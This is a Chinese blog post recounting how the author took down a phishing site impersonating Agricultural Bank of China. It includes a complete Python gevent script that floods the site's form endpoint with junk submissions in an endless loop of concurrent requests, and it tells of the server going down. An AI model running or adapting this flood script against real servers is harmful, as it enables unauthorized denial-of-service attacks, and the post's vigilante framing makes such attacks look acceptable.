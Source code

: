 ```yaml
---
layout: post
title: 记一次 DoS 诈骗网站的经历
categories: 编程
tags: 安全
---
```


题海中激战，正当不亦乐乎时，手机响了。低头一看，是 95599 的短信：

> 尊敬的农行用户，您的账户积分累计现可兑换价值 1024 元现金大礼包！请手机登陆 [wap.abchyd.com](http://wap.abchyd.com) 进行领取！【农业银行】

1024 元？哼！这个数还挺整，但一看就是诈骗短信：哪有银行的域名长得和天书一样？更何况，我又没有农行的账户。

正待删除时，一个念头划过脑海，指尖悬停在屏幕上方。

突然想起昨天在 Freebuf 上看到的一篇文章，说是一个黑帽把臭名昭著的“10086 诈骗”给调戏了一番，在其数据库里填满了垃圾。Freebuf 上许多黑技术我从来都是可望而不可即，唯独这个比较简单——不就是写个脚本嘛，几分钟的事。既然他骗人骗到我这里来了，何不好好调戏一下呢？

果断打开电脑，打开 Chrome，输入网址，映入眼帘的是一个表单（网站已被黑掉因此就没有图了，好吧我错了），要求用户填写 银行卡、密码、手机号还有一个逼格很高的验证码。

F12 分析，发现对各个字段的校验仅仅局限于长度的检查，连格式检查都没有。至于验证码，随便填写四个数字就可以通过了（真是弱爆了，好吗！）。表单提交后跳转到一个有菊花加载圈的页面——说是“稍等，切勿关闭页面”，但其实这个页面并不会跳转，也不会有其他的操作，只有那个菊花一直在转。扫一眼地址栏，发现是`asp`结尾——这又给了我不小的鼓励（这里并没有黑微软的意思， ASP 是十年前的产物，放在现在可以说是弱的不行了）。

该怎么调戏呢？一个想法飞快地在脑海中产生——对了，就用高并发的垃圾数据拖爆它的数据库吧。这类钓鱼网站通常都是 IIS 6.0 + ASP + SQL SERVER，并且还是单机服务器，并发度一高机器很容易就垮了。

简单地谢了一个脚本：

```python
#! /usr/bin/python

import gevent.monkey
gevent.monkey.patch_all()
import gevent
import urllib2, urllib
from uuid import uuid1

def fuck():
    id = str(uuid1())[:16]
    print 'fucking', id
    try:
        urllib2.urlopen('http://www.abchyd.com/add_1.asp', urllib.urlencode({
            'logonCardNum': id,
            'netType': '111111',
            'tel': '12345678900',
            'randomId': '1234'
        }))
    except:
        pass

    print 'fucking', id, 'ok'

while True:
    gevent.joinall([gevent.spawn(fuck) for _ in range(100)])

```

这里用 `gevent` 将 Socket 由阻塞型改装为协程型，以提高请求的并发度。

接着，关掉所有的图形界面，只开一个终端（为了节省内存），运行 `./fuckit.py`。哈哈哈，受死吧！

用平板再次打开该网址（电脑已经跑不起浏览器了），可以发现网站已经明显慢了下来，时不时还会有 500 错误。

两个小时后。

当我再次访问网站时，它已经完全当机了。用`nmap`扫了一遍，也没有端口活着了。一台邪恶的服务器就这样被干掉了。

但我知道，这样的服务器，在世界上还存在着许多许多。曾经有段时间，不断遇到域名为 www.10086xxx.com 的诈骗网站。常常是一个域名被封了，另一个域名便冒出来，可见诈骗者拥有海量的资源。

这次的攻击只是一次游戏，一次尝试，得以成功只是因为对方太弱了。

真正的网络攻防战，远不止如此。
